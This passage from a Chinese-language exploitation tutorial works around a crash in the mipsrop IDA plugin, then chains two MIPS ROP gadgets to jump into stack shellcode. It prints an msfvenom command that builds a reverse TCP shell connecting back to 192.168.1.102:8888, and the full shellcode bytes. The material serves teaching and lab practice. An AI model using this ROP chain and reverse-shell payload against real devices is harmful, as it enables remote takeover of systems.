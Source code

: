 ```
Traceback (most recent call last):
File "D:/IDA 7.0/plugins/mipsrop.py", line 721, in activate
mipsrop = MIPSROPFinder()
File "D:/IDA 7.0/plugins/mipsrop.py", line 208, in init
self._initial_find()
File "D:/IDA 7.0/plugins/mipsrop.py", line 226, in _initial_find
self.system_calls += self._find_system_calls(start, end)
File "D:/IDA 7.0/plugins/mipsrop.py", line 393, in _find_system_calls
if ea >= start_ea and ea <= end_ea and idc.GetMnem(ea)[0] in ['j', 'b']:
IndexError: string index out of range
```

应该是在搜索系统调用相关gadget的时候发生了错误，打开mipsrop.py文件，注释掉报错的地方，并直接返回一个空列表

[![img](https://p2.ssl.qhimg.com/t0182e88f9d349f9a0c.jpg)](https://p2.ssl.qhimg.com/t0182e88f9d349f9a0c.jpg)

插件可以正常工作了，就是应该少了系统调用相关的gadget

[![img](https://p0.ssl.qhimg.com/t0134b1e68a02ec2d00.jpg)](https://p0.ssl.qhimg.com/t0134b1e68a02ec2d00.jpg)

找到有用的gadget

```
|  0x000257A0  |  addiu $a0,$sp,0x58+var_40  |  jalr  $s0  |
|  0x0003D050  |  move $t9,$a0  |  jalr  $a0  |
```

只要将shellcode写到`$sp+0x18处`，将s0覆盖为`0x0003D050`，将返回地址覆盖为`0x000257A0`，就可以在第一个gadget处先将shellcode的地址放到a0寄存器，然后跳转到第二个gadget跳转到shellcode上

shellcode可以用msfvenom生成或从[shell-storm](http://shell-storm.org/shellcode/)找到

（pwntools生成的shellcode是有`\x00`的，而自带的encode函数也不支持mips架构）

msfvenom食用方法：

[Metasploit：如何使用 msfvenom](https://xz.aliyun.com/t/2381)

这里从msfvenom生成回连的shell

```
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=192.168.1.102 LPORT=8888 --arch mipsle --platform linux -f py -o shellcode.py
```

shellcode：

```python
buf =  b""
buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x22\xb8\x0e\x3c"
buf += b"\x22\xb8\xce\x35\xe4\xff\xae\xaf\x01\x66\x0e\x3c\xc0"
buf += b"\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
buf += b"\x01\x01"
```
